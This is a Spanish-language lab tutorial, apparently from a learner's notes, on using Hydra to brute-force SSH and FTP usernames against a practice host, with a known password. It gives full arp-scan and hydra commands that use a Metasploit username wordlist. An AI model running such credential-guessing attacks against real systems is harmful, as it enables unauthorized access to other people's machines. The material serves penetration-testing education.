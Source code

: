 # Uso de Hydra - Parte 2 – Ataques de Fuerza Bruta a Contraseñas (SSH y FTP)

En este caso sabremos la contraseña pero no el usuario.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2061.png)

- Vamos a suponer que no se cual es el usuario pero si la **contraseña** que es **alexis.**
    
    **NOTA:** Mirar la sección Notas el punto numero 2 y el 3 para los diccionarios de usuarios.
    
    ```bash
    hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://10.0.3.8
    ```
    
    Usaremos el diccionario **unix_users.txt** para encontrar usuarios.
    
    ![image.png](./imagenes/image%2062.png)
    
    **No a encontrado el usuario 😲. Si pasa esto debemos seguir intentándolo con otros diccionarios.**
    
    - En este caso al ser una practica de concepto vamos a añadir a mano el nombre del usuario (que conocemos del ejercicio anterior  **Parte 1)** en el diccionario.
        
        ```bash
        sudo nano /usr/share/wordlists/metasploit/unix_users.txt
        ```
        
        ![image.png](./imagenes/image%2063.png)
        

- Vamos a volver a repetir el ataque con hydra.
    
    ```bash
    hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://10.0.3.8
    ```
    
    ![image.png](./imagenes/image%2064.png)
    

- Esta vez vamos ha hacer exactamente igual pero **atacando al protocolo FTP**.
    
    ![image.png](./imagenes/image%2065.png)